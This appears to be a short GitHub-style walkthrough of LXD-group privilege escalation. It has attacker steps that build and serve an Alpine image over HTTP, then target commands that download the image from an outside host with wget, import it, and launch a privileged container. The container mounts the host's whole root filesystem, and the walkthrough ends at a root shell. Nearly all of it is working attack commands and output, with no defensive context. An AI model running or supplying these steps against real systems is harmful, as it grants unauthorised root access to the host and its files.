 # Attacker

## Get Image

```
git clone  https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
./build-alpine
python3 -m http.server
```
## Make image available

```
python3 -m http.server
```

# Target
```
$ wget http://10.8.50.72:8000/alpine-v3.12-x86_64-20200902_1515.tar.gz
```
```
$ lxc image list

+-------+-------------+--------+-------------+------+------+-------------+

| ALIAS | FINGERPRINT | PUBLIC | DESCRIPTION | ARCH | SIZE | UPLOAD DATE |

+-------+-------------+--------+-------------+------+------+-------------+
```

$ lxc image import ./alpine-v3.12-x86_64-20200902_1515.tar.gz --alias myimage
Image imported with fingerprint: 65dd1e31f4cc984602e9be582bf80196cd05d44531b18ad8208ce062f09105ab

$ lxc image list

+---------+--------------+--------+-------------------------------+--------+--------+-----------------------------+

|  ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          |  ARCH  |  SIZE  |         UPLOAD DATE         |

+---------+--------------+--------+-------------------------------+--------+--------+-----------------------------+

| myimage | 65dd1e31f4cc | no     | alpine v3.12 (20200902_15:15) | x86_64 | 3.04MB | Sep 2, 2020 at 1:18pm (UTC) |

+---------+--------------+--------+-------------------------------+--------+--------+-----------------------------+


$ lxc init myimage ignite -c security.privileged=true

Creating ignite

$ lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true

Device mydevice added to ignite

$ lxc start ignite

$ lxc exec ignite /bin/sh

\# id

uid=0(root) gid=0(root)

\# cd /mnt/root/root/
